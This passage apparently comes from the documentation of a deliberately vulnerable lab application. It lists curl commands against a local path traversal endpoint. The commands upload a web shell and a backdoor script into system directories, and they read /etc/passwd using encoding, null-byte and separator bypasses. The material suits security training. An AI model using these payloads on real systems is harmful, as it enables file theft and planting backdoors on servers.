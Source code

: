 #### 5. File Upload Attacks

```bash
# Upload malicious file to system directory
curl -X POST "http://localhost:5000/api/pathtraversal/upload/vuln?directory=../../../tmp" \
  -F "file=@malicious.php"

# Upload web shell to web directory
curl -X POST "http://localhost:5000/api/pathtraversal/upload/vuln?directory=../../../var/www/html" \
  -F "file=@webshell.php"

# Upload to startup directory
curl -X POST "http://localhost:5000/api/pathtraversal/upload/vuln?directory=../../../etc/init.d" \
  -F "file=@backdoor.sh"
```

### Advanced Attack Techniques

#### 1. Encoding Bypass

```bash
# URL encoding
curl "http://localhost:5000/api/pathtraversal/vuln?filename=..%2F..%2F..%2Fetc%2Fpasswd"

# Double URL encoding
curl "http://localhost:5000/api/pathtraversal/vuln?filename=..%252F..%252F..%252Fetc%252Fpasswd"

# Unicode encoding
curl "http://localhost:5000/api/pathtraversal/vuln?filename=..%c0%af..%c0%af..%c0%afetc%c0%afpasswd"
```

#### 2. Null Byte Injection (Historical)

```bash
# Null byte to truncate path (older systems)
curl "http://localhost:5000/api/pathtraversal/vuln?filename=../../../etc/passwd%00.txt"
```

#### 3. Path Variation Techniques

```bash
# Mixed separators
curl "http://localhost:5000/api/pathtraversal/vuln?filename=..\\../..\\etc/passwd"

# Redundant separators
curl "http://localhost:5000/api/pathtraversal/vuln?filename=..//..//../..//etc//passwd"

# Current directory references
curl "http://localhost:5000/api/pathtraversal/vuln?filename=./../../etc/passwd"
```

### Attack Progression

